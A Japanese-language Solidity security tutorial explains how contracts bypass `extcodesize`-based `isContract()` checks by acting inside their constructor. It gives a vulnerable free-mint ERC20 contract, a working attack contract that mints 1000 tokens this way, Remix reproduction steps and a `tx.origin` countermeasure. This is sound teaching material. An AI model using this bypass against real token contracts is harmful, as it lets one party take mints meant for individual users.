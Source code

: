 ```yaml
---
title: S08. コントラクトチェックの回避
tags:
  - solidity
  - security
  - constructor
---
```


# WTF Solidity 合約セキュリティ: S08. コントラクト長チェックの回避

私は最近Solidityを学び直して詳細を固めており、「WTF Solidity 合約セキュリティ」を書いています。初心者向けの内容で（プログラミング上級者は他のチュートリアルをお探しください）、毎週1-3講座を更新しています。

Twitter：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

コミュニティ：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[公式サイト wtf.academy](https://wtf.academy)

すべてのコードとチュートリアルはgithubでオープンソース化されています：[github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

今回は、コントラクト長チェックの回避について紹介し、予防方法を説明します。

## コントラクトチェックの回避

多くのfreemintプロジェクトは、プログラマー（科学者）を制限するために`isContract()`メソッドを使用し、呼び出し元`msg.sender`を外部アカウント（EOA）に制限し、コントラクトではないようにしようとします。この関数は`extcodesize`を利用してそのアドレスに保存されている`bytecode`の長さ（runtime）を取得し、0より大きい場合はコントラクトと判断し、そうでなければEOA（ユーザー）と判断します。

```solidity
// extcodesizeを利用してコントラクトかどうかをチェック
function isContract(address account) public view returns (bool) {
    // extcodesize > 0 のアドレスは必ずコントラクトアドレス
    // ただし、コントラクトのコンストラクタ実行時はextcodesizeが0
    uint size;
    assembly {
        size := extcodesize(account)
    }
    return size > 0;
}
```

ここに脆弱性があります。コントラクトが作成される際、`runtime bytecode`がまだアドレスに保存されていないため、`bytecode`の長さが0になります。つまり、ロジックをコントラクトのコンストラクタ`constructor`内に記述すれば、`isContract()`チェックを回避できます。

![image1](./img/S08-1.png)

## 脆弱性の例

以下の例を見てみましょう：`ContractCheck`コントラクトはfreemint ERC20コントラクトで、ミント関数`mint()`内で`isContract()`関数を使用してコントラクトアドレスの呼び出しを阻止し、プログラマーの一括ミントを防いでいます。`mint()`を呼び出すたびに100枚のトークンをミントできます。

```solidity
// extcodesizeでコントラクトアドレスかどうかをチェック
contract ContractCheck is ERC20 {
    // コンストラクタ：トークン名と記号を初期化
    constructor() ERC20("", "") {}

    // extcodesizeを利用してコントラクトかどうかをチェック
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 のアドレスは必ずコントラクトアドレス
        // ただし、コントラクトのコンストラクタ実行時はextcodesizeが0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint関数、非コントラクトアドレスのみ呼び出し可能（脆弱性あり）
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

攻撃コントラクトを作成し、`constructor`内で`ContractCheck`コントラクトの`mint()`関数を複数回呼び出し、`1000`枚のトークンを一括ミントします：

```solidity
// コンストラクタの特性を利用した攻撃
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // コントラクト作成中、extcodesize（コード長）は0のため、isContract()で検出されない。
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // これは動作する
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // コントラクト作成後、extcodesize > 0となり、isContract()で検出可能
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

前述の内容が正しければ、コンストラクタ内で`mint()`を呼び出すことで`isContract()`チェックを回避してトークンのミントに成功し、関数は正常にデプロイされ、状態変数`isContract`がコンストラクタ内で`false`に設定されます。コントラクトデプロイ後、`runtime bytecode`が既にコントラクトアドレスに保存され、`extcodesize > 0`となり、`isContract()`がミントを正常に阻止し、`mint()`関数の呼び出しは失敗します。

## `Remix`再現

1. `ContractCheck`コントラクトをデプロイします。

2. `NotContract`コントラクトをデプロイし、パラメータを`ContractCheck`コントラクトアドレスにします。

3. `ContractCheck`コントラクトの`balanceOf`を呼び出して`NotContract`コントラクトのトークン残高を確認すると`1000`になっており、攻撃が成功しています。

4. `NotContract`コントラクトの`mint()`関数を呼び出すと、この時点でコントラクトは既にデプロイ完了しているため、`mint()`関数の呼び出しは失敗します。

## 予防方法

`(tx.origin == msg.sender)`を使用して呼び出し元がコントラクトかどうかを検出できます。呼び出し元がEOAの場合、`tx.origin`と`msg.sender`は等しく、等しくない場合は呼び出し元がコントラクトです。[eip-3074](https://eips.ethereum.org/EIPS/eip-3074)では、このようなコントラクトチェック方法は無効になります。

```solidity
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## まとめ

今回は、コントラクト長チェックを回避できる脆弱性について紹介し、予防方法を説明しました。あるアドレスの`extcodesize > 0`の場合、そのアドレスは必ずコントラクトですが、`extcodesize = 0`の場合、そのアドレスは`EOA`の可能性もあれば、作成中状態のコントラクトの可能性もあります。